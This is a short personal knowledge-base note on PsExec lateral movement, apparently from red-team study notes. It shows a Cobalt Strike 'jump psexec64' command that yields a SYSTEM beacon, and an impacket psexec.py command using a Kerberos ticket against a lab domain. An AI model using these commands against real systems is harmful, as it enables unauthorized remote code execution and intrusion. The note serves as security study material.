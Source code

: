 ```yaml
---
creation date: September 23rd 2022
last modified date: September 23rd 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[PsExec]]  
___

## Description:  

For Lateral Movement in 

### Cobalt Strike

The `psexec` / `psexec64` commands work by first uploading a service binary to the target system, then creating and starting a Windows service to execute that binary.  `psexec_psh` doesn't copy a binary to the target, but instead executes a PowerShell one-liner (always 32-bit).

Beacons executed this way run as SYSTEM.

```
beacon> jump psexec64 srv-1 smb
Started service dd80980 on srv-1
[+] established link to child beacon: 10.10.17.25

```

### On Kali With impacket
You need a .ccache or .kirbi ticket.
To obtain those tickets from Rebeus: [[RubeusToCcache]]

```
export KRB5CCNAME=/root/impacket-examples/ticket.ccache
python psexec.py jurassic.park/trex@labwws02.jurassic.park -k -no-pass
```

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 23rd 2022 (04:47 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
